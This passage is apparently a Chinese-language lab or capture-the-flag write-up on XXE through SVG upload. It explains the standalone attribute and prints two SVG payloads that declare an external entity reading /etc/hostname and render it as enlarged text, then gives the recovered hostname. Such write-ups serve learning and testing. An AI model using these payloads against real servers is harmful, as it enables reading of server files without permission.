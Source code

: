 > 第一行包含了 XML 声明。请注意 standalone 属性！该属性规定此 SVG 文件是否是"独立的"，或含有对外部文件的引用。
>
> standalone="no" 意味着 SVG 文档会引用一个外部文件 - 在这里，是 DTD 文件。

然后修修改改，向里面注入了xml代码。这里我们不需要引入dtd文件，所以需要将`standalone`属性改成`yes`。

我还在里面添加了一行文字来承载文件

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>

<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <circle cx="100" cy="50" r="40" stroke="black"
  stroke-width="2" fill="red" />
    <text x="100" y="100" fill="black">&xxe;</text>
</svg>
```

我这样写发现根本看不清楚字母。我之后就将圆圈删了，然后将字的大小调大。

将字体大小调整到30之后终于能够看清楚了。

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>

<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
<text font-size="30" x="100" y="100" fill="black">&xxe;</text>
</svg>
```

最后得到答案：`5d11b7912351`

